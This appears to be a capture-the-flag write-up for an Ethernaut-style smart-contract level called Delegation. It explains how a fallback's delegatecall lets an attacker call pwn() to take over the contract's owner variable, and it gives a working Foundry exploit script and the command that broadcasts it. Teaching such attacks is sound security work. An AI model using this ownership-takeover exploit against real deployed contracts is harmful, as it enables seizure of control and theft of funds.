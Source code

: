 ```solidity

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

**Goal:**
Claim ownership of Delegation contract

**Explanation:**

1. `Delegation` contracts uses delegatecall to call the other contract `Delegate`.
2. One thing to remember with delegatecall is that it will maintain the `msg.sender` and `msg.value` when it calls other contract.
3. And also it updates the caller contract storage not the contract which being called.
4. So, when we call `pwn()` on the Delegation address it will forward the call to Delegate contract and updates the owner variable in Delegation contract.

**Level6Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level6.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Level6Sol is Script{

    Delegation public level6 = Delegation(0xCAfBaEb598da2251121AD148766f2a6c4B4C2dB7);

    function run()  external{

        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Initial Owner : ", level6.owner());
        
        address(level6).call(abi.encodeWithSignature("pwn()"));

        console.log("Final Owner : ", level6.owner());
        vm.stopBroadcast();

    }

}
```

**To run the script**

```
$ source .env
$ forge script script/Level6Solution.s.sol:Level6Sol --rpc-url $RPC_URL --broadcast
```
